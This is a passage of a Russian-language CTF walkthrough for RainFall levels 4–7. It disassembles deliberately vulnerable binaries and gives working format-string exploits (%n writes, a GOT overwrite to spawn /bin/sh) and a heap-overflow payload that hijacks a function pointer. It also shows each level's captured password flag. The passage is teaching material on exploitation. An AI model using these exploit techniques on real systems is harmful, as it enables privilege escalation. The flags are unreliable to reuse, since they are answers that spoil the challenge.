0x0804847f <+40>:  lea  -0x208(%ebp),%eax  # буфер передается в качестве аргумента для printf() 
0x08048485 <+46>:  mov  %eax,(%esp)        #
0x08048488 <+49>:  call 0x8048444 <p>      # вызов функции p()


# 4. 0x08048492 <+59> сравнение m со значением $0x1025544:

# Подготовка для сравнения:

0x0804848d <+54>:  mov  0x8049810,%eax     # положили значение глобальной переменной (это 0) в регистр eax

0x08048492 <+59>:  cmp  $0x1025544,%eax    # сравнивается "m" и 1025544 (hex) = 16930116 (dec)
0x08048497 <+64>:  jne  0x80484a5 <n+78>   # если m не равно 16930116, то переходим к 0x080484a5 <+78>:   leave - это завершение функцию n(), потом main() и выход из программы.

# Если же значение совпали, то в дальнейшем будет произведены подготовка ( 0x08048499 <+66>:    movl   $0x8048590,(%esp) ) и вызов system() ( 0x080484a0 <+73>: )
```
</details>            ||
            \/
            fgets()
<details><summary>          p()</summary>

```sh
(gdb) disass p
# ||
# \/
# Dump of assembler code for function p:
   0x08048444 <+0>:   push %ebp            # сохраняет в стеке содержимое регистра EBP
   0x08048445 <+1>:   mov  %esp,%ebp       # присваивает регистру EBP значение ESP
   0x08048447 <+3>:   sub  $0x18,%esp      # выделено место под локальные переменные

   0x0804844a <+6>:   mov  0x8(%ebp),%eax  # аргументом для printf() будет передана строка, которую при вызове приняла p() в качестве аргумента - УЯЗВИМОСТЬ
   0x0804844d <+9>:   mov  %eax,(%esp)
   0x08048450 <+12>:  call 0x8048340 <printf@plt> # вызов print()

   0x08048455 <+17>:  leave                # завершение p()
   0x08048456 <+18>:  ret    
# End of assembler dump.
```
</details>                    ||
                    \/
                    printf()
            system()
</pre>


`fgets()` защищенная функция, значит с ее помощью не удастся переполнить буфер.
Слабые места: `system()` и `printf()` .


Из анализа (в разворотах под стрелочками) видно, что внутри `n()` вызывается `fgets()`, \
при ее вызове введенная строка передается `p()` (в ней `printf()` вызван уязвимым способом), `p()` ничего не возвращает, \
далее сравнивается значение `m` с числом `16930116`, \
при совпадении вызывается функция `system()`.


Поиск уязвимости printf() в google.com: \
"printf уязвимость" -> ["Такой тип уязвимости называют атакой на строку форматирования (англ. Format string attack)"](https://ru.wikipedia.org/wiki/Printf).

Таким образом необходимо подать правильные аргументы для `printf()`, чтобы переместиться на `system()`.

Аналогично `level3`  буду использовать модификатор %n и для получения положения нужной переменной для изменения ее значения.

Воспользуюсь командой для вычисления номера аргумента `m` в `printf()`:
```sh
echo -e $(python -c 'print "AAAA" + " %p" * 1000') | ./level4 | tr " " "\n" | grep -n 0x41414141
13:0x41414141

# tr " " "\n"     разделит строку по пробелам и каждое следующее значение стека перенесет на новую строку
# grep -n 0x41414141 отфильтрует нужную строку с указанием ее номера

# Поскольку нумерация начинается с AAAA (это будет первая выведенная строка), а печать стека начинается со второй строки, 
# необходимо вычесть 1               (13-1= 12  0x41414141)
# наша глобальная переменная m под номером  12. Значит %12$n
```
Теперь с [помощью модификатора](https://www.opennet.ru/man.shtml?topic=printf&category=3&russian=0) `%n` перезаписываю значение `m`:
1. Адрес `m` занимает 4 байта
2. Аналогично level3 необходимо заполнить оставшиеся 16930116-4 = 16930112 байт каким-то символом,
но способ как в level3 не сработает - слишком огромная строка передавалась бы. Чтобы не передавать строку извне, можно задать длинную строку изнутри `printf()` - всего лишь задать ширину поля 16930112.
3. Запускаю:

```sh
#                           адрес m         заполнитель     позиция введенного
#                           4 байта         16930112 байт   адреса в стеке
echo $(python -c 'print "\x10\x98\x04\x08" + "%16930112d" + "%12$n"') | ./level4
# ||
# \/
# -1208015184
# 0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```
Уровень пройден!
```sh
su level5
# Password: 0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```

<details> 
  <summary> Под этой строкой в развороте исходник и команда для компиляции: </summary>
<pre>

#include "stdlib.h"
#include "unistd.h"
#include "stdio.h"
#include "string.h"
#define FILE_PASS "/bin/cat /home/user/level5/.pass"

int m;

void  p(char *string) {

    printf(string);

}

void  n(void) {

    char  b[512];

    fgets(b, sizeof(b), stdin);
    p(b);
    if(m == 0x01025544) {

            system(FILE_PASS);

    }

}

int main(int argc, char **argv) {

    n();

}

</pre>
gcc -m32 -z execstack -Wl,-z,norelro -fno-stack-protector исходник_level.c -o level
</details> 

#
###### [вернуться к содержанию](#content)
<a name="lvl5"></a> 
# level5

<!-- <pre>
level0@RainFall:~$ su level5
<font color=grey>Password: 0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a</font>

RELRO      STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
<font class=off>No RELRO   No canary found   NX disabled   No PIE</font>          <font class=on>No RPATH   No RUNPATH</font>   <font class=filePath>/home/user/level5/level5</font>
</pre> -->


Проверяю содержимое домашней директории пользователя и свойства содержимого: 
<details><summary> ls -la </summary>

```sh
ls -la
# ||
# \/
# -rwsr-s---+ 1 level6 users  5385 Mar  6  2016 level5
# ...
```
---
</details>
<details><summary> getfacl level5 </summary>

```sh
getfacl level5 
# ||
# \/
# # file: level5
# # owner: level6
# # group: users
# # flags: ss-
# user::rwx
# user:level5:r-x
# user:level6:r-x
# group::---
# mask::r-x
# other::---
```
---

</details>
<details><summary> ./level5 </summary>

```sh
./level5 
# ||
# \/
# 
# 

./level5 AAAA
# ||
# \/
# 
# 

./level5 
# ||
# \/
# AAAA
# AAAA

```
---

</details>
<details><summary> ltrace ./level5 </summary>

```sh
ltrace ./level5 
# ||
# \/
# __libc_start_main(0x8048504, 1, 0xbffff6f4, 0x8048520, 0x8048590 <unfinished ...>
# fgets(AAAA
# "AAAA\n", 512, 0xb7fd1ac0)                                     = 0xbffff440
# printf("AAAA\n"AAAA
# )                                                     = 5
# exit(1 <unfinished ...>
# +++ exited (status 1) +++
```
---

</details>
<details><summary> gdb level8 -> disassemble на список функций </summary>

```sh
gdb level5
(gdb) disassemble #Tab
# ||
# \/
# ...
# m
# main
# n
# o
# printf
# exit
# fgets
# system
# ...
```
---
</details>


Аналогично предыдущим уровням - в main происходит только вызов одной единственной функции `n()`.


Коротко:
<pre>
<details> 
  <summary> m - глобальная переменная </summary>

    <pre>
        (gdb) disassemble m
        # ||
        # \/
        # No function contains specified address.
        (gdb) x &m
        # ||
        # \/
        # 0x8049854 <m>:  0x00000000
        # глобальная переменная
    </pre>
___
</details> 


Функции:
<details> 
  <summary>main() </summary>

```sh
(gdb) disassemble main
# ||
# \/
# Dump of assembler code for function main:
# 1.    создается стековый фрейм (stack frame) или кадр стека:
0x08048504 <+0>:     push   %ebp              # сохраняет в стеке содержимое регистра EBP
0x08048505 <+1>:     mov    %esp,%ebp         # присваивает регистру EBP значение ESP
0x08048507 <+3>:     and    $0xfffffff0,%esp  # выравнивание стека по 16-байтовой границе, то есть каждая созданная переменная и выделенная в функции main область памяти будет выравниваться до размера, кратного 16 байтам.

# 2.
0x0804850a <+6>:     call   0x80484c2 <n>     # вызов функции n()

# 3. Далее завершение и возврат из функции main():
0x0804850f <+11>:    leave                     
0x08048510 <+12>:    ret                       
# End of assembler dump.
```
</details>      ||
      \/
<details> <summary>     n() </summary>
  <pre>

```sh
# 1. создается стековый фрейм (stack frame) или кадр стека:
   0x080484c2 <+0>:     push   %ebp                   # сохраняет в стеке содержимое регистра EBP
   0x080484c3 <+1>:     mov    %esp,%ebp              # присваивает регистру EBP значение ESP
   0x080484c5 <+3>:     sub    $0x218,%esp            # выделяется 218 (hex) = 536 (dec) байт под локальные переменные (в том числе как было видно при вызове ltrace ./level4 512 байт под буфер для fgets() ).

# 2.  Подготовка к вызову char *fgets(char *str, int num, FILE *stream):
   0x080484cb <+9>:     mov    0x8049848,%eax         # в качестве FILE *stream в fgets() передано 0 (stdin).

# (gdb) x 0x8049848
# ||
# \/
# 0x8049848 <stdin@@GLIBC_2.0>:   0x00000000

   0x080484d0 <+14>:    mov    %eax,0x8(%esp)         # кладу значение stdin в 0x8(%esp)
   0x080484d4 <+18>:    movl   $0x200,0x4(%esp)       # кладу размер буфера 20016 = 51210 байт в 0x4(%esp)
   0x080484dc <+26>:    lea    -0x208(%ebp),%eax      # кладу в регистр %eax указатель на буфер в 51210 байт и два вышеуказанных значения для передачи в fgets()
   0x080484e2 <+32>:    mov    %eax,(%esp)            #  
   0x080484e5 <+35>:    call   0x80483a0 <fgets@plt>  # вызов функции fgets()

# 3. Подготовка к вызову printf():
   0x080484ea <+40>:    lea    -0x208(%ebp),%eax      # буфер передается в качестве аргумента для printf() - УЯЗВИМОСТЬ для атаки на строку форматирования
   0x080484f0 <+46>:    mov    %eax,(%esp)            #
   0x080484f3 <+49>:    call   0x8048380 <printf@plt> # вызов функции printf()

   0x080484f8 <+54>:    movl   $0x1,(%esp)            #
   0x080484ff <+61>:    call   0x80483d0 <exit@plt>   # вызов функции exit()
End of assembler dump.
```


Анализ disassemble n() завершен.
___

  </pre>
</details>            ||
            \/
            fgets()
            printf()
            exit()
<br>
<br>
Также в программе присутствует функция o():
<details> <summary>o() </summary>

```sh
(gdb) disassemble o
# ||
# \/
# Dump of assembler code for function o:
# 1.   создается стековый фрейм (stack frame) или кадр стека:
0x080484a4 <+0>:     push   %ebp              # сохраняет в стеке содержимое регистра EBP
0x080484a5 <+1>:     mov    %esp,%ebp         # присваивает регистру EBP значение ESP
0x080484a7 <+3>:     sub    $0x18,%esp        # выделяется 18 (hex) = 24 (dec) байт под локальные переменные
# 2.
0x080484aa <+6>:     movl   $0x80485f0,(%esp) # для system() подготовка (передача аргумента "/bin/sh")
0x080484b1 <+13>:    call   0x80483b0 <system@plt> вызов system()

# 3.
0x080484b6 <+18>:    movl   $0x1,(%esp)
0x080484bd <+25>:    call   0x8048390 <_exit@plt> вызов _exit()
# End of assembler dump.
```
</details>    ||
    \/
    system()
    _exit()

</pre>

Функция `o()` вызывает функцию `system()`. \
Необходимо попасть на `system()`. Для этого можно попасть на вызывающую ее функцию `o()`.

<details> <summary>Альтернатива адресу o() в развороте. </summary>

Так как задача - попасть на `system()` с переданным аргументом `"/bin/sh"`, то можно вместо `o()` для подмены указать любой адрес, после которого попаду на строку подготовки к вызову `system()` и с последующим вызовом функции. \
Из `(gdb) disassemble o` видно подходящие адреса: \
0x080484a4 \
0x080484a5 \
0x080484a7 \
0x080484aa - подготовка для system() (передача аргумента "/bin/sh")

```sh
#                                      адрес передачи  
#                                      аргумента "/bin/sh"
#                                      0x080484aa(hex)-4(dec)   номер аргумента
#                                      =                        в printf() (адрес на стеке)
#                         exit()       134513834(dec) - 4(dec)  для присваивания
#                         4 bytes      =         ||             нужного значения
#                           ||                   ||             ||
#                           \/                   \/             \/
(echo $(python -c 'print "\x38\x98\x04\x08" + "%134513830d" + "%4$n"'); cat) | ./level5

# вычисление "%4$n" будет рассмотрено ниже на примере перехода на адрес o().
```
</details>

Поскольку `n()` вызывает `exit()`, я не смогу подменить адрес возврата из `n()`, но я могу подменить адрес `exit()` на адрес `o()`.

1. Узнаю адрес `exit()`:
```sh
(gdb) disassemble exit
# ||
# \/
# Dump of assembler code for function exit@plt:
#    0x080483d0 <+0>:     jmp    *0x8049838
#    0x080483d6 <+6>:     push   $0x28
#    0x080483db <+11>:    jmp    0x8048370
# End of assembler dump.
(gdb) x 0x8049838
# ||
# \/
  0x8049838 # <exit@got.plt>:       0x080483d6
```
Адрес `exit()` в [GOT (Global Offset Table)](https://en.wikipedia.org/wiki/Global_Offset_Table) таблице 0x8049838 .

2. Узнаю адрес `o()`:

```sh
        (gdb) disassemble o
        # ||
        # \/
        # Dump of assembler code for function o:
        #    создается стековый фрейм (stack frame) или кадр стека:
             0x080484a4 # <+0>:     push   %ebp            # сохраняет в стеке содержимое регистра EBP
```
Адрес `o()`  0x080484a4 .

3. Аналогично level3 и level4 узнаю положение в стеке адреса для подмены:
```sh
echo -e $(python -c 'print "AAAA" + " %p" * 1000') | ./level5 | tr " " "\n" | grep -n 0x41414141
5:0x41414141

# tr " " "\n"     разделит строку по пробелам и каждое следующее значение стека перенесет на новую строку
# grep -n 0x41414141 отфильтрует нужную строку с указанием ее номера

# Поскольку нумерация начинается с AAAA (это будет первая выведенная строка), а печать стека начинается со второй строки, 
# необходимо вычесть 1               (5-1= 4  0x41414141)
# наша глобальная переменная m под номером 4. Значит %4$n
```

Теперь с помощью модификатора %n перезаписываю значение `exit()`:
* Адрес `exit()` 0x8049838<sub>(big-endian)</sub>=\x38\x98\x04\x08<sub>little-endian</sub> занимает 4 байта
* Заполню оставшиеся 0x080484a4<cub>16</sub>-4<sub>10</sub>=134513828<sub>10</sub>-4<sub>10</sub>=134513824 байт задав ширину поля `%134513824d`.
```sh
#                           адрес exit()      заполнитель     позиция в стеке 
#                           4 байта           134513824 байт  введенного адреса 
(echo $(python -c 'print "\x38\x98\x04\x08" + "%134513824d" + "%4$n"'); cat) | ./level5
# долгое ожидание, пока в терминале выведутся все пробелы...
#                                                                 512
whoami
# || 
# \/
# level6
cat /home/user/level6/.pass
# || 
# \/
# d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```
Уровень пройден!
```sh
su level6
# Password: d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```

<details> 
  <summary> Под этой строкой в развороте исходник и команда для компиляции: </summary>
<pre>

#include "stdlib.h"
#include "unistd.h"
#include "stdio.h"
#include "string.h"

int m;

void  o(void) {

    system("/bin/sh");
    _exit(1);

}

void  n(void){

    char b[512];

    fgets(b, sizeof(b), stdin);
    printf(b);
    exit(1);   

}

int main(int argc, char **argv) {

    n();

}

</pre>
gcc -m32 -z execstack -Wl,-z,norelro -fno-stack-protector исходник_level.c -o level
</details> 

#
###### [вернуться к содержанию](#content)
<a name="lvl6"></a> 
# level6

<!-- <pre>
level0@RainFall:~$ su level6
<font color=grey>Password: d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31</font>

RELRO      STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
<font class=off>No RELRO   No canary found   NX disabled   No PIE</font>          <font class=on>No RPATH   No RUNPATH</font>   <font class=filePath>/home/user/level6/level6</font>
</pre> -->



Проверяю содержимое домашней директории пользователя и свойства содержимого: 
<details><summary> ls -la </summary>

```sh
ls -la
# ||
# \/
# -rwsr-s---+ 1 level7 users  5274 Mar  6  2016 level6
```
---
</details>
<details><summary> getfacl level8 </summary>

```sh
getfacl level6 
# ||
# \/
# # file: level6
# # owner: level7
# # group: users
# # flags: ss-
# user::rwx
# user:level7:r-x
# user:level6:r-x
# group::---
# mask::r-x
# other::---

```
---

</details>
<details><summary> ./level6 с аргументами и без </summary>

```sh
./level6 
# ||
# \/
# Segmentation fault (core dumped)

./level6 AAAA
# ||
# \/
# Nope

./level6 AAAA AA
# ||
# \/
# Nope
```
---

</details>
<details><summary> ltrace ./level6 </summary>

```sh
ltrace ./level6 
# ||
# \/
# __libc_start_main(0x804847c, 1, 0xbffff6f4, 0x80484e0, 0x8048550 <unfinished ...>
# malloc(64)                                                           = 0x0804a008
# malloc(4)                                                            = 0x0804a050
# strcpy(0x0804a008, NULL <unfinished ...>
# --- SIGSEGV (Segmentation fault) ---
# +++ killed by SIGSEGV +++
```
---

</details>
<details><summary> gdb level6 -> disassemble на список функций </summary>

```sh
gdb level6
(gdb) disassemble #Tab
# ||
# \/
# ...
# main
# malloc
# strcpy
# ...
# n
# system
# ...
# m
# puts
# ...
```
---
</details>
<br>

<><pre>
Функции: 
<details><summary>main() </summary>

```sh

(gdb) disass main
# Dump of assembler code for function main:
# 1. создается стековый фрейм (stack frame) или кадр стека:
0x0804847c <+0>:   push %ebp                 # сохраняет в стеке содержимое регистра EBP
0x0804847d <+1>:   mov  %esp,%ebp            # присваивает регистру EBP значение ESP
0x0804847f <+3>:   and  $0xfffffff0,%esp     # выравнивание стека по 16-байтовой границе, то есть каждая созданная переменная и выделенная в функции main область памяти будет выравниваться до размера, кратного 16 байтам.
0x08048482 <+6>:   sub  $0x20,%esp           # выделяется 20 (hex) = 32 (dec) байт под локальные переменные

# 2. Первый вызов malloc на 64 байта
0x08048485 <+9>:   movl $0x40,(%esp)         # передаю аргумент со значением 40 (hex) = 64 (dec) байт для выделения вызовом malloc() (как видно из ltrace ./level6 )
0x0804848c <+16>: call 0x8048350 <malloc@plt> # вызов malloc
0x08048491 <+21>: mov  %eax,0x1c(%esp)        # malloc  вернул указатель на выделенную память в 64 байта. x $eax -> 0x804a008

# 3. Второй вызов malloc на 4 байта
0x08048495 <+25>:  movl $0x4,(%esp)          # указано 4 (hex) = 4 (dec) байт для выделения вызовом malloc() (как видно из ltrace ./level6 ).
0x0804849c <+32>:  call 0x8048350 <malloc@plt> # вызов malloc
0x080484a1 <+37>:    mov    %eax,0x18(%esp)  # x $eax/a -> 0x804a050 сохранена выделенная область памяти в 0x18(%esp)

# 4. Присваивание выделенной памяти 4 байта адреса m():
0x080484a5 <+41>:    mov    $0x8048468,%edx  # во временное хранилище кладется адрес функции m()
#  (gdb) x 0x8048468
#  0x8048468 <m>:  0x83e58955
#  
0x080484aa <+46>:    mov    0x18(%esp),%eax # выделенная память 4 байта вторым malloc сохраняется в eax
0x080484ae <+50>:    mov    %edx,(%eax)     # адрес функции m() сохраняется в eax, то есть  
                                            # выделенная malloc 4 байта память содержит теперь m()

# 5. Подготовка к вызову функции strcpy():
0x080484b0 <+52>:    mov    0xc(%ebp),%eax # x   $eax       -> 0xbffff6d4: 0xbffff814
                                         # x/s 0xbffff814 -> "/home/user/level6/level6"
                                         # argv[0]
0x080484b3 <+55>:  add  $0x4,%eax        # x/s *$eax -> 0xbffff82d: "AAAA"
                                         # берется адрес argv[1]
0x080484b6 <+58>:  mov  (%eax),%eax      # берется значение по адресу argv[1] 
                                         # (введенная мною строка "AAAA") 
0x080484b8 <+60>:  mov  %eax,%edx        # "AAAA" кладется в регистр edx
0x080484ba <+62>:  mov  0x1c(%esp),%eax  # выделенная память в 64 байта (операция <+16> и
                                         # <+21> передается в strcpy() для записи в нее argv[1]
0x080484be <+66>:  mov  %edx,0x4(%esp)
0x080484c2 <+70>:  mov  %eax,(%esp)
0x080484c5 <+73>:  call 0x8048340 <strcpy@plt> # вызов функции

# УЯЗВИМОСТЬ: нет проверки размера передаваемого аргумента в strcpy() - можно переполнить буфер.


# 5. Подготовка к вызову функции m():

0x080484ca <+78>:  mov   0x18(%esp),%eax # адрес функции m() 
0x080484ce <+82>:  mov   (%eax),%eax     # x/a $eax -> 0x804a050: 0x8048468 <m>
0x080484d0 <+84>:  call  *%eax           # вызов функции m()

# 6. Завершение и возврат из main
0x080484d2 <+86>:  leave  
0x080484d3 <+87>:  ret    
End of assembler dump.
```

</details>      ||
      \/
      переменная_буфер = malloc(64)
      переменная_для_m = malloc(4)
      переменная_для_m = &m()
      strcpy(переменная_буфер, argv[1])
<details><summary>    m()</summary>

```sh
(gdb) disassemble 0x8048468
# Dump of assembler code for function m:
# 1. создается стековый фрейм (stack frame) или кадр стека:
   0x08048468 <+0>:     push   %ebp                 # сохраняет в стеке содержимое регистра EBP
   0x08048469 <+1>:     mov    %esp,%ebp            # присваивает регистру EBP значение ESP
   0x0804846b <+3>:     sub    $0x18,%esp           # выделяется 18 (hex) = 24 (dec) байт под локальные переменные

# 2. Подготовка к вызову <puts@plt>:
   0x0804846e <+6>:     movl   $0x80485d1,(%esp)    # строка "Nope" для передачи в <puts@plt>
# ||
# \/
# (gdb) x 0x80485d1
# 0x80485d1:       "Nope"
# 
   0x08048475 <+13>:    call   0x8048360 <puts@plt> # вызов <puts@plt>

# 3. Завершение и выход из функции m()
   0x0804847a <+18>:    leave  
   0x0804847b <+19>:    ret    
# End of assembler dump.
```
</details> 
<br>
Также в программе присутствует функция n():
<details> <summary>n() </summary>

```sh
(gdb) disassemble n
# Dump of assembler code for function n:
# 1. создается стековый фрейм (stack frame) или кадр стека:
0x08048454 <+0>:     push   %ebp       # сохраняет в стеке содержимое регистра EBP
0x08048455 <+1>:     mov    %esp,%ebp  # присваивает регистру EBP значение ESP
0x08048457 <+3>:     sub    $0x18,%esp # выделяется 18 (hex) = 24 (dec) байт под локальные переменные

# 2. Подготовка к вызову system():
0x0804845a <+6>:     movl   $0x80485b0,(%esp) # передача в качестве аргумента для system() "/bin/cat /home/user/level7/.pass"
# ||
# \/
# (gdb) x/s 0x80485b0
# 0x80485b0:       "/bin/cat /home/user/level7/.pass"
0x08048461 <+13>:    call   0x8048370 <system@plt> # вызов system("/bin/cat /home/user/level7/.pass")

# 3.  Завершение и возврат из n()
0x08048466 <+18>:    leave  
0x08048467 <+19>:    ret    
# End of assembler dump.

```
</details>
</pre>

Найденные уязвимости:
1. strcpy(буфер 64 байта, строка любого размера argv[1])
2. system("/bin/cat /home/user/level7/.pass")

Атака:\
Перезаписать адрес возврата `EIP регистр` так, чтобы попасть на `system()`.
Для подмены `EIP` подойдут адреса:
```sh
(gdb) disassemble n
0x08048454
0x08048455
0x08048457
0x0804845a # Подготовка аргумента к вызову system():
```

Расчет смещения EIP (адреса возврата) \
[Воспользуюсь сайтом.](https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/)

```sh
gdb level6
(gdb) r Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
# ||
# \/
# Program received signal SIGSEGV, Segmentation fault.
# 0x41346341 in ?? ()
```

Нужное смещение 72 байт.

Подставляю адрес для вызова `system()` и атакую:
```sh
./level6 $(python -c 'print "A" * 72 + "\x08\x04\x84\x5a"[::-1]')
#                                    python: работа со срезами
#                                    [от начала:до конца:
#                                     в обратном порядке поставить 
#                                     последовательность]
# ||
# \/
# f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```
Уровень пройден!
```sh
su level7
# Password: f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```

<details> 
  <summary> Под этой строкой в развороте исходник и команда для компиляции: </summary>
<pre>

#include "stdlib.h"
#include "unistd.h"
#include "string.h"
#include "stdio.h"
#include "sys/types.h"

#define FILE_PASS "/bin/cat /home/user/level7/.pass"

struct data {

    char name[64];

};

struct fp {

    int (*fp)();

};

void n (void) {

    system(FILE_PASS);

}

void m(void) {

    printf("Nope\n");

}

int main(int argc, char **argv) {

    struct data *d;
    struct fp *f;

    d = malloc(sizeof(struct data));
    f = malloc(sizeof(struct fp));
    f->fp = m;
    strcpy(d->name, argv[1]);
    f->fp();

}

</pre>
gcc -m32 -z execstack -Wl,-z,norelro -fno-stack-protector исходник_level.c -o level
</details> 

#
###### [вернуться к содержанию](#content)
<a name="lvl7"></a> 
# level7

<!-- <pre>
level0@RainFall:~$ su level7
<font color=grey>Password: f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d</font>

RELRO      STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
<font class=off>No RELRO   No canary found   NX disabled   No PIE</font>          <font class=on>No RPATH   No RUNPATH</font>   <font class=filePath>/home/user/level7/level7</font>
</pre> -->



Проверяю содержимое домашней директории пользователя и свойства содержимого: 
<details><summary> ls -la </summary>

```sh
ls -la
# ||
# \/
# -rwsr-s---+ 1 level8 users  5648 Mar  9  2016 level7
```
---
</details>
<details><summary> getfacl level7 </summary>

```sh
getfacl level7 
# ||
# \/
# owner: level8
# flags: ss-
# ...
```
---

</details>
<details><summary> ./level7 с аргументами и без аргументов </summary>

```sh
./level7 
# ||
# \/
# Segmentation fault (core dumped)

./level7 AAAA
# ||
# \/
# Segmentation fault (core dumped)

./level7 AAAA AAAA
# ||
# \/
# ~~
```
---

</details>
<details><summary> ltrace ./level7 AAAA BBBB </summary>

```sh
ltrace ./level7 AAAA BBBB
# ||
# \/
# __libc_start_main(0x8048521, 3, 0xbffff6e4, 0x8048610, 0x8048680 <unfinished ...>
# malloc(8)                                                            = 0x0804a008
# malloc(8)                                                            = 0x0804a018
# malloc(8)                                                            = 0x0804a028
# malloc(8)                                                            = 0x0804a038
# strcpy(0x0804a018, "AAAA")                                           = 0x0804a018
# strcpy(0x0804a038, "BBBB")                                           = 0x0804a038
# fopen("/home/user/level8/.pass", "r")                                = 0
# fgets( <unfinished ...>
# --- SIGSEGV (Segmentation fault) ---
# +++ killed by SIGSEGV +++
```
---

</details>
<details><summary> gdb level7 -> disassemble на список функций </summary>

```sh
gdb level7
(gdb) disassemble #Tab
# ||
# \/
# main
# malloc
# strcpy
# fgets
# fopen
# printf
# puts
# ...
# m
# c
# time
```
---
</details>
<br>

Коротко:

Из `ltrace ./level7 AAAA BBBB` видно, что в `main()` вызываются функции:
main,
malloc,
strcpy,
fgets,
fopen

Также есть в программе `m`, `c`, `time`.

<details> 
  <summary> c - глобальная переменная </summary>
    <pre>
    (gdb) disassemble c
    # ||
    # \/
    # No function contains specified address.
    # (gdb) x &c
    # ||
    # \/
    # 0x8049960 <c>:  0x00000000
    # глобальная переменная
    <pre>
</details> 

<details> 
  <summary>m()
<pre>      ||
      \/
      printf("%s - %d\n", c, time(NULL))</pre></summary>

<a name="level7_m"></a> 

```sh
(gdb) disassemble m
# Dump of assembler code for function m:
# 1. создается стековый фрейм (stack frame) или кадр стека:
0x080484f4 <+0>:  push %ebp                   # сохраняет в стеке содержимое регистра EBP
0x080484f5 <+1>:  mov  %esp,%ebp              # присваивает регистру EBP значение ESP
0x080484f7 <+3>:  sub  $0x18,%esp             # выделяется 18 (hex) = 24 (dec) байт под локальные переменные

# 2. Подготовка к вызову <time@plt>:
0x080484fa <+6>:  movl $0x0,(%esp)            # NULL передан в качестве аргумента для time()
0x08048501 <+13>: call 0x80483d0 <time@plt>   # вызов time()

# 3. Подготовка к вызову <printf@plt>:
0x08048506 <+18>: mov  $0x80486e0,%edx        # строка "%s - %d\n" в качестве 
                                              # аргумента подготовлена для printf()
                                              #
                          # (gdb) x/s 0x80486e0
                          # ||
                          # \/
                          # 0x80486e0: "%s - %d\n"
                                              #
0x0804850b <+23>: mov  %eax,0x8(%esp)         # значение, возвращенное time() передано в printf()
0x0804850f <+27>: movl $0x8049960,0x4(%esp)   # глобальная переменная "c" - выше в предыдущем развороте этой переменной видно этот адрес
0x08048517 <+35>: mov  %edx,(%esp)            # строка "%s - %d\n" передана в printf()
0x0804851a <+38>: call 0x80483b0 <printf@plt> # вызов printf("%s - %d\n", 0x8049960 это c, time(NULL))

# 3. Завершение и выход из функции m()
0x0804851f <+43>: leave 
0x08048520 <+44>: ret   
End of assembler dump.
```
</details> 

<details> 
  <summary>анализ main() в развороте.</summary>

```sh
(gdb) disassemble m
# Dump of assembler code for function m:
# 1. создается стековый фрейм (stack frame) или кадр стека:
0x08048521 <+0>:  push %ebp              # сохраняет в стеке содержимое регистра EBP
0x08048522 <+1>:  mov  %esp,%ebp         # присваивает регистру EBP значение ESP
0x08048524 <+3>:  and  $0xfffffff0,%esp  # выравнивание стека (по 16 байт)
0x08048527 <+6>:  sub  $0x20,%esp        # выделяется 18 (hex) = 24 (dec) байт под локальные переменные

# 2. Заполнение первой структуры (то, что это структура, будет видно из дальнейшего анализа):

# 2.1. Подготовка к 1 вызову <malloc@plt>:
0x0804852a <+9>:   movl $0x8,(%esp)     # размер запрошенной памяти 8 байт
0x08048531 <+16>:  call 0x80483f0 <malloc@plt> # вызов malloc(8)
                                        # malloc() вернет: x $eax -> 0x804a008 на 8 байт
0x08048536 <+21>:  mov  %eax,0x1c(%esp) # память, выделенная malloc() кладется в локальную переменную на стек в 0x1c(%esp) (назову ее лок_перем_1)

# 2.2. Далее:
0x0804853a <+25>:  mov  0x1c(%esp),%eax # лок_перем_1 положена в регистр eax
0x0804853e <+29>:  movl $0x1,(%eax)     # значение 1 присвоено лок_перем_1

# 2.3. Подготовка ко 2му вызову <malloc@plt>:
0x08048544 <+35>:  movl $0x8,(%esp)     # для вызова malloc передан аргумент 8 байт
0x0804854b <+42>:  call 0x80483f0 <malloc@plt> # вызов malloc(8)
0x08048550 <+47>:  mov  %eax,%edx       # в edx сохранен адрес выделенной вызовом malloc памяти
                                        # x/a $eax -> 0x804a018 на 8 байт
0x08048552 <+49>:  mov  0x1c(%esp),%eax # лок_перем_1 положена в регистр eax
0x08048556 <+53>:  mov  %edx,0x4(%eax)  # адрес памяти, выделенной 2м вызовом malloc, 
                                        # присвоен лок_перем_1 со смещением 4
                                        #            ||
                                        #            \/
                                        # лок_перем_1      - это структура, которая хранит в себе:
                                        # int some_int     - 4 байта
                                        # pointer some_ptr - 4 байта
                                        # ____________
                                        # итого 8 байт
                                        # 
                                        # лок_перем_1->some_int = 1;
                                        # лок_перем_1->some_ptr = malloc(8);
                                        # 

# 3. Заполнение второй структуры (то, что это структура, будет видно из дальнейшего анализа):

# 3.1. Подготовка к 3 вызову <malloc@plt>:
0x08048559 <+56>:  movl $0x8,(%esp)     # для вызова malloc передан аргумент 8 байт
0x08048560 <+63>:  call 0x80483f0 <malloc@plt> # вызов malloc(8)
                                        # malloc() вернет: x $eax -> 0x804a028 на 8 байт
0x08048565 <+68>:  mov  %eax,0x18(%esp) # память, выделенная malloc() кладется в локальную переменную на стек в 0x18(%esp) (назову ее лок_перем_2)

# 3.2. Далее:
0x08048569 <+72>:  mov  0x18(%esp),%eax # лок_перем_2 положена в регистр eax
0x0804856d <+76>:  movl $0x2,(%eax)     # значение 2 присвоено лок_перем_2

# 3.3. Подготовка к 4му вызову <malloc@plt>:
0x08048573 <+82>:  movl $0x8,(%esp)     # для вызова malloc передан аргумент 8 байт
